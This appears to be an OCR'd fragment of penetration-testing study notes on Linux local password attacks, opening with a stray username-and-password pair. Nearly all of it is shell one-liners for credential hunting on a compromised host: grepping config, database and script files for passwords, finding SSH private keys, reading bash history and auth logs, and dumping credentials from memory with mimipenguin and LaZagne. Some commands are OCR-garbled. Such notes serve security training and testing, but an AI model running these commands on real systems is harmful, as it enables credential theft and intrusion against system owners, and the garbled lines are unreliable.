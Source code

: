 * edgeadmin:Edge@dmin123!

## Linux Local PW Attacks

### Credential Hunting in linux

Config files

for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name \*$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done

Creds in config files

for i in $(find / -name \*.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "#";done

Databases

for l in $(echo ".sql .db ._db .db_");do echo -e "\nDB File extension: " $l; find / -name \*$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done

Notes

find /home/\* -type f -name "_.txt" -o ! -name "_.\*"

Scripts

for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name \*$l 2>/dev/null | grep -v "doc|lib|headers|share";done

SSH Private keys

grep -rnw "PRIVATE KEY" /home/\* 2>/dev/null | grep ":1"

SSH Public keys

grep -rnw "ssh-rsa" /home/\* 2>/dev/null | grep ":1"

BASH HISTORY

tail -n5 /home/_/.bash_

_LOGS_

for i in $(ls /var/log/\* 2>/dev/null);do GREP=$(grep "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" $i 2>/dev/null); if \[\[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted|session opened|session closed|failure|failed|ssh|password changed|new user|delete user|sudo|COMMAND=|logs" $i 2>/dev/null;fi;done

MEMORY

sudo python3 mimipenguin.py

sudo bash mimipenguin.py

sudo python3 laZagne.py all

BROWSERS

ls -l .mozilla/firefox/ | grep default
